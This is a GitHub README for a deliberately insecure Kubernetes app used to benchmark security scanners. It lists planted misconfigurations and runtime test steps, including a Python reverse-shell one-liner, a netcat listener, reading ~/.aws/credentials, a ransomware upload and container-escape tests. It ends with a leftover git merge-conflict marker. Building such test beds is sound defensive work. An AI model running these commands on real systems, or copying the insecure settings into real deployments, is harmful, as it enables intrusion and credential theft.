 <p align="center"><img src="https://raw.githubusercontent.com/latiotech/LAST/main/logo.png" width="150" ><br><h1 align="center">Insecure Kubernetes App</h1>
</p>

![GitHub stars](https://img.shields.io/github/stars/latiotech/insecure-kubernetes-deployments?style=social)
![GitHub release (latest by date)](https://img.shields.io/github/v/release/latiotech/insecure-kubernetes-deployments)
![GitHub issues](https://img.shields.io/github/issues/latiotech/insecure-kubernetes-deployments)
![GitHub pull requests](https://img.shields.io/github/issues-pr/latiotech/insecure-kubernetes-deployments)
![GitHub](https://img.shields.io/github/license/latiotech/insecure-kubernetes-deployments)
[![Discord](https://img.shields.io/discord/1119809850239614978)](https://discord.gg/k5aBQ55j5M)
![Docker Pulls](https://img.shields.io/docker/pulls/confusedcrib/insecure-app)

Test every type of configuration scanner against a single repo that's comically insecure with documented issues

[About Latio](https://latio.tech)  

- [Deployment](#deployment)
- [Issues to Test](#this-repo-contains-the-following-issues)
- [Testing Details](#testing)

## Deployment:

This will create an EKS cluster with some insecure application pods for testing.

1. Make sure you have [Terraform](https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli), [Helm](https://helm.sh/docs/intro/install/), [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html), [eksctl](https://eksctl.io/installation/) and a valid AWS user configured

2. Move to terraform directory, `cd terraform`

3. Apply the terraform, this creates an EKS cluster for testing: `terraform init` `terraform plan` `terraform apply` This creates two EKS node groups, one publicly accessible over SSH and another private. These will run small instances, be sure to `terraform destroy` when you're done for minimal fees. This takes about 15 minutes.

4. Add the Terraform EKS details to your kubeconfig
```
aws eks --region $(terraform output -raw region) update-kubeconfig \
    --name $(terraform output -raw cluster_name)
```

5. Grant your user access to the kubernetes cluster you created - through the Console it's adding the AmazonEKSAdminPolicy and AmazonEKSClusterAdminPolicy to your user. This could be automated with terraform to create a user and a role and output them, but it would require adding additional AWS profiles which I thought might be more confusing unless someone has a better solution. 

6. Move to the helm chart directory `cd ../insecure-chart/`

7. Deploy the insecure app, busybox pod, and workload security evaluator `helm install insecure-app . --create-namespace --namespace=insecure-app`

8. To test in these pods:

Get pod name, `kubectl get pods -n insecure-app` or `kubectl get pods -n insecure-app`

For testing insecure-app, run `kubectl port-forward pod/[POD-NAME] 8080:8080 -n insecure-app`. You can now test in your browser at `http://localhost:8080/`

For workload-security-evaluator, run `k exec -it [POD-NAME] -n insecure-app -- /bin/bash`, then `pwsh` to being invoking tests such as `Invoke-AtomicTest T1105-27 -ShowDetails`

9. `terraform destroy` when you're done!


## This Repo Contains the following issues:

### General Configuration Issues

1. Busybox is deployed as a long running pod with plenty of dangerous utilities on it
2. Insecure App has fake AWS access keys as env variables, mounts the docker socket, runs in privileged mode, is open on port 8080 and port 22, and binds an SA role with permissions to create more SA roles
3. Workload Security Evaluator contains all the same issues

### Insecure-app

1. Takes raw input as a web form and runs it as root on the server and returns the input to the user
2. Allows for unvalidated file uploads
3. Is running in debug mode
4. Has way more utilities on its Dockerfile than it needs

### Workload-security-evaluator

1. Is forked from [DataDog](https://github.com/DataDog/workload-security-evaluator)
2. Is used for running tests from [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

# Testing 

## Misconfigurations

1. AWS creds in env variables
2. SSH port open
3. SA credentials have ability to create new credentials
4. Privileged container
5. Docker socket mounted

## Runtime

1. Run `python3 --version` and `ls -al` via the web form  - detects if it can tell that the python process is running bash commands
2. Run `apt-get update` and `apt-get install hydra -y` - to check for package installs
3. Scan the local port range to look for network detections - `nmap -sS 192.168.1.1-254`
4. Try to spawn a reverse shell
    - bash into workload-security and run `apt-get install netcat`
    - `nc -lvnp 9001`
    - `export RHOST="WORKLOAD-POD-IP";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
5. Check what secrets we might have access to `printenv` and `cat ~/.aws/credentials`
6. Upload ransomware python script `ransomware.py`- this will indicate the level of alerting, if it's new file, python, or specifics about the python
7. Exec into the workload security evaluator pod with `k exec -it [POD-NAME] -n insecure-app -- /bin/bash`, then `pwsh`
8. `Invoke-AtomicTest T1105-27` - download and run a file
9. `Invoke-AtomicTest T1046-2` - run nmap
10. `Invoke-AtomicTest T1053.003-2` - modify cron jobs
11. `Invoke-AtomicTest T1070.003-1` - clear bash history
12. `Invoke-AtomicTest T1611-1,2` - Container escape
13. Check agent utilization with `k top pod --all-namespaces`
<<<<<<< HEAD
=======

Readme change
>>>>>>> b8e1c4d61873ed7566d33dcd8bd4b76bcf86e450

